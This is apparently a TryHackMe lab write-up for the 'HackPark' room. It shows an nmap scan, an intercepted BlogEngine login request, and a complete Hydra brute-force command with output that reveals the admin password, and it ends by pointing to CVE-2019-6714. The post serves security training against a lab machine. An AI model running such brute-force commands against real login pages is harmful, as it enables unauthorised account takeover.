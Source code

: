 ```yaml
---
layout: post
title: THM — HackPark
date: 2022-09-29 00:00:00 -500
categories: [TryHackMe]
tags: [Hydra]
---
```


After deploying the machine we can run basic nmap scan for open ports & services on the target machine.

```console
vladislav@Mac ~ % nmap -sV 10.10.205.86
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-28 23:06 MSK
Nmap scan report for 10.10.205.86
Host is up (0.068s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.41 seconds
```

We can see that there is an HTTP service on port 80, then we open `10.10.205.86:80` in browser.

There we are interested in the login page. Inspecting the login form we can find out that it's using POST request type.


![Inspecting the site](/assets/images/HackPark/1.png)

Moreover, the url of the login page is the following: `http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/`.

## Using Hydra for brute-forcing the login

Now we know the URL, request type and probably the login name, so we can start brute-force with Hydra.

However, first we need to intercept the POST request using Burp Suite.

```
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.205.86
Content-Length: 578
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.205.86
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=user&ctl00%24MainContent%24LoginUser%24Password=pass&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8
```

Now we can use Hydra for cracking the password.

> [Good notes on hydra](https://github.com/gnebbia/hydra_notes)

We set username with `-l admin`, password list with `-P /share/wordlists/rockyou.txt`, target machine IP, HTTP form and "request string".

Request string contains of three elements separated by `:`:

* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with `^USER^` and `^PASS^` where usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt

So in our case request string contains:

* `/Account/login.aspx?ReturnURL=/admin/` from the URL
* "`__VIEWSTATE`". There we should change two things: `UserNameuser` to `UserName=^USER^` and `Password=pass` to `Password=^PASS^`
* S=Success.

Here's the final hydra payload:

```
hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
```

```
vladislav@Mac ~ % hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-29 00:06:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.80.203:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed
[STATUS] 995.00 tries/min, 995 tries in 00:01h, 14343406 to do in 240:16h, 16 active
[80][http-post-form] host: 10.10.80.203   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-29 00:08:15
```

So, the password is `1qaz2wsx`.

After logging into admin account we can find the blogengine version: `3.3.6.0`.

![Blogengine about page](/assets/images/HackPark/2.png)

Searching on exploit-db, we can find the [vulnerability](https://www.exploit-db.com/exploits/46353). CVE-2019-6714. Download the script.

